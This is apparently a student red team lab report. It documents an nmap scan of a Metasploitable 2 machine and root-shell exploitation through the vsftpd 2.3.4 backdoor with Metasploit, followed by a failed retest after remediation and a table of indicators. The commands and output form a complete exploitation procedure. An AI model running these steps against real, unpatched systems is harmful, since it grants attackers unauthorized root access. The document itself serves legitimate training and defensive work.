

# 🔴 Red Team Report — Offensive Execution

**Target:** `10.63.233.95` (Metasploitable 2)  
**Attacker:** `10.63.233.26` (Kali Linux)  
**Date:** 17 February 2026  
**Classification:** Simulated Lab Exercise

---

## Phase 1: Reconnaissance

### 1.1 Network Scan

```bash
nmap -sS -A -T4 -o /home/venkat/projects/devTown/nmapscan.txt 10.63.233.95
```

**Command breakdown:**
- `-sS` — SYN stealth scan (half-open, less noisy than full TCP)
- `-A` — Aggressive mode: OS detection, version detection, script scanning, traceroute
- `-T4` — Timing template 4 (aggressive speed)

### 1.2 Scan Results Summary

Full scan results are in .

**Key open ports identified:**

| Port | Service | Version | Risk |
|------|---------|---------|------|
| 21/tcp | FTP | **vsftpd 2.3.4** | 🔴 CRITICAL — known backdoor |
| 22/tcp | SSH | OpenSSH 4.7p1 | 🟡 Outdated |
| 23/tcp | Telnet | Linux telnetd | 🔴 Plaintext credentials |
| 1524/tcp | bindshell | **Metasploitable root shell** | 🔴 CRITICAL |
| 3306/tcp | MySQL | 5.0.51a-3ubuntu5 | 🔴 No auth configured |
| 6667/tcp | IRC | UnrealIRCd (Unreal3.2.8.1) | 🔴 Known backdoor |
| 5900/tcp | VNC | Protocol 3.3 | 🟡 Weak auth |

**Anonymous FTP confirmed:**
```
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
```

**Selected Attack Vector:** `vsftpd 2.3.4` — CVE-2011-2523  
This version contains a deliberately planted backdoor. When a username containing `:)` (smiley face) is sent, the daemon opens a shell on **TCP port 6200** with root privileges.

---

## Phase 2: Exploitation

### 2.1 Launch Metasploit

```bash
msfconsole
```

### 2.2 Select and Configure the Module

```bash
msf > use exploit/unix/ftp/vsftpd_234_backdoor

msf exploit(unix/ftp/vsftpd_234_backdoor) > set RHOSTS 10.63.233.95
RHOSTS => 10.63.233.95

msf exploit(unix/ftp/vsftpd_234_backdoor) > show options
```

**Module options:**

| Name | Value | Required | Description |
|------|-------|----------|-------------|
| RHOSTS | 10.63.233.95 | yes | Target host |
| RPORT | 21 | yes | Target port (TCP) |

### 2.3 Execute the Exploit

```bash
msf exploit(unix/ftp/vsftpd_234_backdoor) > exploit
```

**Metasploit output:**
```
[*] 10.63.233.95:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 10.63.233.95:21 - USER: 331 Please specify the password.
[*] 10.63.233.95:21 - Backdoor service has been spawned, handling...
[*] 10.63.233.95:21 - UID: uid=0(root) gid=0(root)
[*] Found shell.
[*] Command shell session 1 opened (10.63.233.26:39963 → 10.63.233.95:6200) at 2026-02-17 15:51:06 +0530
```

📸 Screenshot:



---

## Phase 3: Post-Exploitation (Privilege Verification)

### 3.1 Confirm Identity and OS

```bash
uname -a
# Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686 GNU/Linux

whoami
# root
```

**Result:** Full root shell obtained. No privilege escalation was required — the backdoor provides direct root access (uid=0, gid=0).

### 3.2 Filesystem Enumeration

```bash
ls /
# bin  boot  cdrom  dev  etc  home  initrd  initrd.img  lib
# lost+found  media  mnt  nohup.out  opt  proc  root  sbin
# srv  sys  tmp  usr  var  vmlinuz
```

📸 **Screenshot:** [`evidence/screenshots/03_root_shell_ls.png`](../evidence/screenshots/03_root_shell_ls.png)

### 3.3 Network Interface Verification

```bash
ifconfig
# eth0: inet addr 10.63.233.95  HWaddr 08:00:27:02:c5:69
```

📸 **Screenshot:** [`evidence/screenshots/02_network_ifconfig.png`](../evidence/screenshots/02_network_ifconfig.png)

---

## Phase 4: Second Exploit Attempt (Post-Remediation)

After the Blue Team applied remediation at ~17:37, a second exploit attempt was made to verify effectiveness:

```bash
msf exploit(unix/ftp/vsftpd_234_backdoor) > exploit

[-] 10.63.233.95:21 - Exploit failed [unreachable]: Rex::ConnectionTimeout
    The connection with (10.63.233.95:21) timed out.
[-] Exploit completed, but no session was created.
```

📸 **Screenshot:** [`evidence/screenshots/08_exploit_failed_after_remediation.png`](../evidence/screenshots/08_exploit_failed_after_remediation.png)

**Conclusion:** Remediation was fully effective. The exploit path is blocked.

---

## Summary of Attack Path

```
[Recon]    Nmap reveals vsftpd 2.3.4 on port 21 with anonymous login
     ↓
[Exploit]  Metasploit module triggers ":)" backdoor in vsftpd username
     ↓
[Access]   Backdoor opens port 6200, returns uid=0 root shell
     ↓
[Impact]   Full filesystem access, no further escalation needed
```

**Total time from scan to root shell: < 3 minutes**

---

## IoCs Generated (for Blue Team)

| Indicator | Value |
|-----------|-------|
| Attacker IP | `10.63.233.26` |
| Exploit port | TCP 21 (FTP) |
| Backdoor port | TCP 6200 |
| Anonymous FTP password | `IEUser@` (Metasploit default) |
| SSH probe string | `SSH-1.5-Nmap-SSH1-Hostkey`, `SSH-1.5-NmapNSE_1.0` |
| rsh/rlogin probes | Multiple "Connection from ... on illegal port" entries |
